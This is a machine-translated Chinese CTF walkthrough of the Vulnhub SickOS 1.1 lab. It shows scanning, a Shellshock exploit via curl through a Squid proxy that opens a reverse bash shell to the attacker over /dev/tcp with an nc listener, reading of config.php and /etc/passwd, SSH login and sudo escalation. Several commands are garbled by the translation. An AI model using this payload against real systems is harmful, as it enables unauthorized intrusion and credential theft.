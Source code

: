 # Vulnhub 撰写/演练 SickOS 1.1 |作者 Md Amiruddin

> 原文：<https://infosecwriteups.com/sickos-1-1-capture-the-flag-walkthrough-27eb77acfc41?source=collection_archive---------2----------------------->

![](img/c0298e80981aefed683ccd14ad4e47fe.png)

这个 CTF 类似于 OSCP 考试课程中的实验。目标是危害目标并获得管理/根权限。

旗帜:有一面旗帜

DHCP:启用
IP 地址:自动分配

病秧子 1.1 OVA 文件可以在[这里](https://www.vulnhub.com/entry/sickos-11,132/)下载。

对于这台 Toppo 机器，我使用了 Virtual Box 来运行目标机器。Kali Linux 是解决这个 CTF 的攻击机器。

**足迹**

正如你所看到的，神经病机器是通电的。现在，在我们开始使用 ifconfig 来找到你的攻击机器(kali)的 IP 地址。

![](img/b9c0690bd33794f056abe43db7f83e59.png)

我的目标的 IP 地址是 10.0.2.9，我的 Kali 的 IP 地址是 10.0.2.15。这些地址适用于我和我的网络，您的地址可能会有所不同。

我们将使用命令> **netdiscover -i eth0** 来发现病人的 ip 地址。

![](img/51f381a6b52451e6557d4976a3b18a6c.png)![](img/699a89bbd3455a96643a10b06af04d8a.png)

接下来，我们需要了解目标有哪些端口和服务可用。为此，我们将对目标使用 Nmap。

使用的命令> **nmap -sS -A -n -T5 10.0.2.9**

![](img/ddd32ba7345422fdc8ec974ab3431cbb.png)

从 nmap 扫描中，我们了解到在端口 3128 上配置了一个 Squid HTTP 代理，并且在端口 8080 上运行的 HTTP 被关闭。HTTP 的存在告诉我们很可能有一个网站。

让我们通过用代理配置 Nikto 来查找 web 服务器上的漏洞。

使用的命令>**nikto-h 10 . 2 . 2 . 9-use proxy**[**http://10 . 0 . 2 . 9:3128**](http://10.0.2.9:3128)

![](img/65eecba259ab2dc1eab95f5be5efc1c9.png)

Nikto scan 帮助我们识别服务器易受 Shellshock 漏洞的攻击。你可能想知道什么是 shellshock 漏洞。

Shellshock 是一种计算机错误，它利用 UNIX 命令执行 shell-bash 中的漏洞，方便黑客远程控制计算机系统并执行任意代码，这将影响基于 UNIX 的操作系统，包括 Linux 和 Mac OS。

为了访问网站，我们需要配置 Firefox 浏览器的代理设置。首先启动 Firefox，进入**设置>网络设置>编辑手动代理配置> Ok。**

![](img/79b3a3a84a5f86963c6adc43cbf5f16e.png)

在我们点击“确定”并保存代理设置后，我们可以进入地址栏并输入目标的 IP 地址，这将为我们提供网站的主页。

![](img/db6dc6cfcbd9eeb0020cdf4627edd01d.png)

你可以检查网站的源代码，但我在那里没有发现任何有用的东西。

在查看 robots.txt 之后，我们了解到有一个 wolfcms 页面。我们去看看。

![](img/35ddd53cc54970161085b5c92f1734d3.png)![](img/847a84510ced8c6daef2e35a43b44e2c.png)

Wolfcms 页面没有提供任何有用的信息。现在，我们将针对该站点运行漏洞利用 shell shock—[CVE-2014–6271](http://www.cvedetails.com/cve/cve-2014-6271)和[CVE-2014–6278](http://www.cvedetails.com/cve/cve-2014-6278)。它将允许我们建立一个反向外壳。

现在打开第二个终端，运行下面的 cURL 命令。注意:这个命令是用我的目标和 Kali IP (10.0.2.15)配置的，您的 IP 可能会有所不同。

命令使用>**curl-x**[**http://10 . 0 . 2 . 9:3128****-H " User-Agent:(){ ignored；};/bin/bash-I>&/dev/TCP/10 . 0 . 2 . 15/4444 0>&1 "**](http://10.0.2.9:3128)[**http://10 . 0 . 2 . 9/CGI-bin/status**](http://10.0.2.9/cgi-bin/status)

![](img/51e3ebcd4aa11c11745ca6d18a186603.png)

但是首先要设置监听器端口并运行。

使用的命令: **nc -lvnp 4444**

正如我们所见，我们的反向外壳已经建立！

![](img/8636dd747403dcaed454a39a3aef7fca.png)

**命令分解:**

我们使用-x 开关来启动使用 HTTP 代理的连接。之后，我们使用-H 开关来包含一个编辑过的用户代理头。我们执行的代码是一个反向 TCP bash shell。

接下来，我们需要将默认位置更改为 wolfcms 文件夹，然后列出内容，看看我们能在那里找到什么。

命令使用> **cd /var/www/wolfcms**

使用的命令> **ls**

![](img/6f8ea95d6057ab23196e4f059251eeca.png)

我们发现了一个 config.php 的文件，所以将尝试读取它。我们可以使用 cat 命令查看内容。

命令使用>**猫 config.php**

这很有趣，我们得到了 SQL 访问的用户名和密码。

![](img/f83a57a8474c778c1a6a55bf736dd55f.png)

之后，我们将使用 cat 命令打印出 etc/passwd 文件的内容。

使用的命令> **cat /etc/passwd**

![](img/9d5fa7238767e2209f0e9f3b16811e69.png)

我们找到了一个用户名“神经病”。因此，我们尝试使用用户 sickos 和我们之前找到的密码 [**【电子邮件保护】**](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection) 建立一个 ssh shell。

打开第二个终端，尝试使用 ssh 登录到目标机器。

使用的命令> **ssh** [**【邮件保护】**](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection) 密码:[【邮件保护】](https://cyberintelligencesolution.com/cdn-cgi/l/email-protection)

![](img/e60bbfee81c124b146003b087364ea2f.png)

如您所见，我们已成功登录。让我们看看神经病有什么样的权限。

使用的命令: **sudo -l**

神经病有根权限。让我们访问目标神经病的根。之后，将目录切换到根目录。

命令使用>**须藤苏**

命令使用> **cd /root**

![](img/c153febbb18928521f4d347506a053c5.png)

让我们列出目录内容，看看有哪些权限。

使用的命令> **ls -la**

![](img/46ed4c2687adba03e0c5111a9a9e928a.png)

因为我们找到了一个 txt 文件，所以要读取 a 0216 ea 4d 51874464078 c 618298 b 1367 . txt 文件的内容，我们将使用 cat 命令。

使用的命令>**cat a 0216 ea 4d 51874464078 c 618298 b 1367 . txt**

![](img/f6db805d15f2a72db3d92c64ab825a8f.png)

最后我们拿到了旗子。

*原载于 2022 年 12 月 21 日 https://cyberintelligencesolution.com*[](https://cyberintelligencesolution.com/sickos-1-1-capture-the-flag-walkthrough/)**。**
